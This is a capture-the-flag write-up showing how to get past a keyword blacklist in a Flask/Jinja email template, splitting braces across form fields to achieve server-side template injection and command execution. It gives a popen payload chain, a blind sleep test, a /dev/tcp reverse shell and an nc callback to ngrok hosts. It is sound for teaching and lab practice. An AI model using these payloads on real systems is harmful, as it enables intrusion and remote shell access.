


In this challenge we need to exploit `SSTI` to achieve `RCE`.

As we can see, this is how the data is getting inserted to the template:
```py
mail = """
Hello team,

A new hacker wants to join our private Bug bounty program! Mary, can you schedule an interview?

 - Name: {{ hacker_name }}
 - Surname: {{ hacker_surname }}
 - Email: {{ hacker_email }}
 - Birth date: {{ hacker_bday }}

I'm sending you the details of the application in the attached CSV file:

 - '{{ hacker_name }}{{ hacker_surname }}{{ hacker_email }}{{ hacker_bday }}.csv'

Best regards,
"""
```

However, there is this `sanitize` function:
```py
def sanitize(value):
    blacklist = ['{{','}}','{ %','% }','import','eval','builtins','class','[',']']
    for word in blacklist:
        if word in value:
            value = value.replace(word,'')
    if any([bool(w in value) for w in blacklist]):
        value = sanitize(value)
    return value
```

And also this length limitation:
```py
if len(request.form["name"]) > 20:
    return render_template("index.html", error="Field 'name' is too long.")
if len(request.form["surname"]) >= 50:
    return render_template("index.html", error="Field 'surname' is too long.")
if len(request.form["email"]) >= 50:
    return render_template("index.html", error="Field 'email' is too long.")
if len(request.form["bday"]) > 10:
    return render_template("index.html", error="Field 'bday' is too long.")
```

The main problem here is that we can't send `{{` or `}}`, and same for `{ %` and `% }`.
In such case, there is no way to get `SSTI`. 

Is it?
We can see this line in the mail that is being sent:
```py
 - '{{ hacker_name }}{{ hacker_surname }}{{ hacker_email }}{{ hacker_bday }}.csv'
```

What will happen if we'll give this for example:
```py
hacker_name = '{'
hacker_surname = '{ 7*7 '
hacker_email = '}'
hacker_bday = '}'
```

When testing locally, we're getting `SSTI`!

Okay, i went to [PayloadAllTheThings SSTI Python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md), and got this line:
```py
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```

Let's check for `Blind RCE`, like giving `sleep 10`, Notice we must divide it to the `surname` and `email`, because each one can contain up to 50 chars.

This will be our payload:
```py
name={&surname={cycler.__init__.__globals__.os.popen('sleep+10&email=').read()}&bday=}
```

As you can see, it takes 10 seconds until we get response



Now we just need to get our reverse shell, and find the flag.

However, for somehow i didn't manage to get that, even simple `nc` not working for me, and this is the same for other challenges on this platform, don't know why.

Any way, the payload for the reverse shell will be:
```
sh -i >& /dev/tcp/2.tcp.eu.ngrok.io/17645 0>&1
```

And the final payload (which working fine for me when running the challenge locally...)

```
name={&surname={cycler.__init__.__globals__.os.popen('echo 1337&email=|+nc+5.tcp.eu.ngrok.io+13190').read()}&bday=}
```
so, surname = `{cycler.__init__.__globals__.os.popen('echo 1337`, email = `| nc 5.tcp.eu.ngrok.io 13190').read()}`.



I need to send this to the challenge, and get the data, but it doesn't work :| 

**Flag:** ***`PLACE_HOLDER`***
